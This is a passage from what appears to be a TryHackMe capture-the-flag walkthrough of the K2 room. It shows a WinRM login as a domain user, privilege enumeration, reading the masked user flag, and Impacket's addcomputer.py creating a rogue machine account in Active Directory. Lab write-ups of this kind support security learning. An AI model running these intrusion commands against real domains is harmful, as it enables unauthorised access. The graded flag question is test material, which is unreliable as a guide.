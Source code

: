 <h1 align="center">Shell as <strong>o.armstrong</strong></h1>

```bash
:~/K2# evil-winrm -i K2RootDC.k2.thm -u 'o.armstrong' -p '⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃'

*Evil-WinRM* PS C:\Users\o.armstrong\Documents> whoami
k2\o.armstrong
```

```bash
*Evil-WinRM* PS C:\Users\o.armstrong\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set
```

```bash
*Evil-WinRM* PS C:\Users\o.armstrong\Desktop> dir


    Directory: C:\Users\o.armstrong\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        5/30/2023   1:35 AM            136 notes.txt
-a----        5/30/2023   2:28 AM             38 user.txt


*Evil-WinRM* PS C:\Users\o.armstrong\Desktop> cat user.txt
THM{********************************}
```

<img width="1778" height="496" alt="{79790363-52AA-48B3-B11B-8B87DAACAF2D}" src="https://github.com/user-attachments/assets/8c1b8daa-9128-47a4-bd31-a046a1032177" />

<br>
<br>
<br>
<p>3.1. What is the user flag?<br>
<code>THM{********************************}</code></p>
<br>
<br>
<br>

```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/addcomputer.py -method SAMR -computer-name 'RESEARCHER$' -computer-pass 'OhMyGod!123' -dc-host K2RootDC.k2.thm -domain-netbios k2.thm 'k2.thm/o.armstrong:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Successfully added machine account RESEARCHER$ with password OhMyGod!123.
```
